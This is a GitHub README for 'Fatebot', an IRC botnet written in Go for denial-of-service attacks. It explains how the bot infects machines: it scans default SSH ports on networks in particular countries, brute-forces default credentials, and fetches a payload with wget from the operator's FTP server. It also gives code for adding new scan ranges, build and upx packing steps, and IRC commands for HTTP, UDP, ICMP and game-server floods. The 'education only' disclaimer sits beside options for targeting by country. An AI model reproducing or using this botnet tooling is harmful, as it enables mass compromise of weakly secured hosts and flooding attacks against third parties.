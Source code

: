 # Fatebot
This is my first IRC botnet for launch Denial of Service attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot are write in Go language. <strong>For education purpose only. Please test it in your lab, I create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/fatebot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or You can do a random scan or even You can add you own mods like russia or india isp mods. All of these it's up to you. This bot will Brute-force attack to the target and use "wget" to get payload from FTP server, So... Please prepair your FTP server first It's very important for infect process. <strong>(It's just my case, You can use any option that can host The payload.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add The case for your ip range and return range of your ip.

		case var_name:
				return scan.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of The id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to The "ScanMode" function and add The case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			irc.BotScanner(UK_netList, ftp, payload, false) //Just config The first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	./bin/<payload>
	
	#Tips: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target.
	?post 	<url>			Flood HTTP post request to target.
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To The target server that used to host online games.
	?scan 	<modes> <server>	Scan SSH port on The network, Brute-Force attack to The target and load The payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united states network. 
		-r		Scan on random ip range. 	
		
	?info				Get bot system information, For bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
